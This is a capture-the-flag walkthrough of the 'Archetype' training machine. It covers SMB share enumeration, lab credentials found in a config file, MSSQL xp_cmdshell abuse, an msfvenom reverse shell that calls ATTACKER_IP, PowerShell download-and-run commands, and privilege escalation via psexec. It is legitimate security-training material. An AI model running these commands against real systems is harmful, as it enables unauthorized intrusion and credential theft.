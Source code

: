 ```yaml
---
title: "[Starting Point] Tier 2: Archetype"
tags:
  - Very Easy
  - Windows
  - Samba
---
```


| Difficulty |  |  IP Address   |  |
| :--------: |--| :-----------: |--|
|  Very Easy |  |  10.129.82.74 |  |

---

### [ Which TCP port is hosting a database server? ]

Let's run a basic nmap scan on the target machine. As always, we load in standard scripts (-sC) and enable version enumeration (-sV).

```
sudo nmap -sC -sV -vv -T4 10.129.82.74
```

![screenshot1](../assets/images/archetype/screenshot1.png)

From the results, we can see that 4 ports are open: **135 (RPC)**, **139 (SMB)**, **445 (SMB)** and **1433 (MSSQL server)**

The database server is being hosted on port **1433**.

---

### [ What is the name of the non-Administrative share available over SMB? ]

Let's use `smbclient` to list out all of the shares on the SMB server that we can access:

```
smbclient -L 10.129.82.74
```

![screenshot2](../assets/images/archetype/screenshot2.png)

There is a non-administrative share of interest: **backups**

---

### [ What is the password identified in the file on the SMB share? ]

Let's login into the **backups** share:

```
smbclient //10.129.82.74/backups
```

![screenshot3](../assets/images/archetype/screenshot3.png)

There is a file called **prod.dtsConfig**. We can download it onto our local machine using the `get` command.

**Contents of prod.dtsConfig:**

![screenshot4](../assets/images/archetype/screenshot4.png)

*(A DTSCONFIG file is an XML configuration file used to apply property values to SQL Server Integration Services (SSIS) packages. The file contains one or more package configurations that consist of metadata such as the server name, database names, and other connection properties to configure SSIS packages)*

We can identify a password in the config file:

> M3g4c0rp123

---

### [ What script from Impacket collection can be used in order to establish an authenticated connection to a Microsoft SQL Server? ]

mssqlclient.py

---

### [ What extended stored procedure of Microsoft SQL Server can be used in order to spawn a Windows command shell? ]

After doing some research online, I came across this useful [information](https://docs.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/xp-cmdshell-transact-sql?view=sql-server-ver15):

*xp_cmdshell spawns a Windows command shell and passes in a string for execution. Any output is returned as rows of text.*

Extended stored procedure: **xp_cmdshell**

---

### [ What script can be used in order to search possible paths to escalate privileges on Windows hosts? ]

[WinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)

---

### [ What file contains the administrator's password? ]

Let's log into the MSSQL server using the **mssqlclient.py** script from impacket.

*(Steps on how to do so can be found from [here](https://book.hacktricks.xyz/pentesting/pentesting-mssql-microsoft-sql-server))*

From the config file earlier, we know that the username is:

> sql_svc 

And the password is:

> M3g4c0rp123

Also, from our nmap scan, we also know that the domain name is **ARCHETYPE**.

With that, we can log into the MSSQL server:

```
python3 mssqlclient.py -windows-auth ARCHETYPE/sql_svc:M3g4c0rp123@10.129.82.74
```

![screenshot5](../assets/images/archetype/screenshot5.png)

Now let's try to enable **xp_cmdshell**. If enabled, we will be able to run shell commands from within the SQL CLI.

```
enable_xp_cmdshell
```

![screenshot6](../assets/images/archetype/screenshot6.png)

Now that xp_cmdshell is enabled, let's try running a basic `whoami` command:

```
xp_cmdshell whoami
```

![screenshot7](../assets/images/archetype/screenshot7.png)

Nice, it works!

Now let's try to open a reverse shell into the machine. First, we have to generate a reverse shell payload for Windows. We can use  `msfvenom` to do so:

```
msfvenom -p windows/shell_reverse_tcp -a x86 -e x86/shikata_ga_nai LHOST=ATTACKER_IP LPORT=4444 -f exe -o shell.exe
```

Once we have our reverse shell payload, we can run the following command in the MSSQL CLI:

```
xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; wget http://ATTACKER_IP:8000/shell.exe -outfile shell.exe; .\shell.exe"
```

This command does a few things:

1. It uses powershell and the `-c` option to run the subsequent commands.
2. It first navigates to **C:\Users\sql_svc\Downloads** as that is a directory which is writeable by us.
3. It then uses `wget` to download our generated reverse shell payload from our local machine. Make sure to have a HTTP server up and running first.
4. Finally, it executes the reverse shell script, thus opening up the reverse shell.


With a netcat listener up and running, we soon gain access into the target machine via the reverse shell:

![screenshot8](../assets/images/archetype/screenshot8.png)

Now that we're in, let's download **WinPEAS** onto the target machine (make sure to have a HTTP server running).

```
powershell -c wget http://ATTACKER_IP:8000/winPEASx86.exe -outfile winpeas.exe
```

Looking through the results of the WinPEAS scan, I noticed an interesting file:

![screenshot9](../assets/images/archetype/screenshot9.png)

Looks like there is a PowerShell history file called **ConsoleHost_history.txt**:

![screenshot10](../assets/images/archetype/screenshot10.png)

This file contains the administrator's password!

---

### [ Submit user flag ]

The administrator's password is:

> MEGACORP_4dm1n!!

Let's now use the **psexec.py** script from impacket to open a connection to the target machine using our newfound credentials:

```
python3 psexec.py administrator@10.129.82.74
```

![screenshot11](../assets/images/archetype/screenshot11.png)

And just like that, we're now in the machine as **NT AUTHORITY\SYSTEM**!

We can grab the **user flag** from the desktop of the **sql_svc** user:

![screenshot12](../assets/images/archetype/screenshot12.png)

---

### [ Submit root flag ]

The **root flag** can be found in the desktop of the **Administrator** user:

![screenshot13](../assets/images/archetype/screenshot13.png)
